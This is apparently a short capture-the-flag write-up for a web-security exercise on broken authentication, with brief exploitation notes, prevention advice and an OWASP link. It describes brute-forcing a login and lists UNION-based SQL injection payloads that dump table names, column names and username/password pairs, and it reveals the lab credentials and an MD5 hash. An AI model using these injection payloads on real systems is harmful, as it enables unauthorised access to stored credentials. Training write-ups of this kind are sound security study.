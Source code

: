 # BROKEN AUTHENTICATION

## Explanation

**Bruteforce way**
- small bash script which loops through most common password and usernames
  - => root / shadow works and gets us the flag

**The passwords were available through sql injection as well.**
- Union injection to retrieve all the tables / columns
  - 1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
  - 1 AND 1=2 UNION SELECT table_name, column_name, 1 FROM information_schema.columns
  - 1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default
- => 3bf1114a986ba87ed28fc1b5884fc2f8 == shadow

## Exploitation

> - Automated attacks such as bruteforcing with rainbow tables
> - Test for default passwords
> - Weak password policy

## Prevention

> In order to mitigate this risk, implement :
>  - strong password policy
>  - do not allow default credentials
>  - multi factor authentication
>  - limitation on failed login attemps

## Documentation

[OWASP - Authentication](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)